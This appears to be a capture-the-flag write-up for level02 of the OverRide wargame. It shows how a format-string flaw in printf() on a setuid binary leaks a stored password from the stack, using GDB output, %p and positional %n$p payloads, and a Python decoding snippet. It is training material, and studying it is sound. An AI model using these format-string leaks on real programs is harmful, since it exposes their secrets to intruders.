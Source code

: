 Level02 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

Level02 rights:
```Shell
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
```

The program asks for a username and password:
```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: name
--[ Password: pass
*****************************************
name does not have access!
```

Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- the program opens the password file and stores it in a buffer
- `printf()` is used to display the username, but it is vulnerable to format string attack
- the comparison between the password and our input is performed over 40 bytes, so we can deduce that this is the length of the password.
Since it is stored on the stack, we will exploit `printf()` with the `%p` specifier to display it.

First, let's use GDB to take a look at the three memory allocations:
```Shell
(gdb) disas main
[...]
   0x000000000040082c <+24>:    lea    -0x70(%rbp),%rdx           // user_pass[112]
[...]
   0x0000000000400849 <+53>:    lea    -0xa0(%rbp),%rdx           // password[48]
[...]
   0x0000000000400869 <+85>:    lea    -0x110(%rbp),%rdx          // user_name[112]
[...]
 ```
There is an offset of 48 bytes beetween the password buffer and the user_name buffer. So we know that only the first 40 bytes will contain the password.

Next, we need to print the stack and find out where our buffer is, and this allows us to also peek at values stored higher on the stack:
```Shell
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: coucou
*****************************************
AAAAAAAA 0x7fffffffe500 (nil) 0x63 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x756f63756f63 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x4141414141414141 0x2520702520702520 0x2070252070252070 does not have access!
```
The user_name buffer starts at the 28th argument, `0x4141414141414141`. The 27th argument contains the last 8 bytes of the pass buffer, so we can skip that and get the 5 previous arguments (40 / 8, as addresses are 8 bytes long) to display the entire password.

```Shell
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

Good, we have the entire password, but we need to:
- convert each value from hexadecimal to characters
- reverse them from little endian to big endian
- concatenate each strings to form the final password.

Using a python script can help make it fast and easy:
```Python
>>> hex_values = [
...     "756e505234376848",
...     "45414a3561733951",
...     "377a7143574e6758",
...     "354a35686e475873",
...     "48336750664b394d"
... ]
>>> 
>>> result = ''.join(
...     bytes.fromhex(h)[::-1].decode('ascii', errors='ignore') 
...     for h in hex_values
... )
>>> 
>>> print(result)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
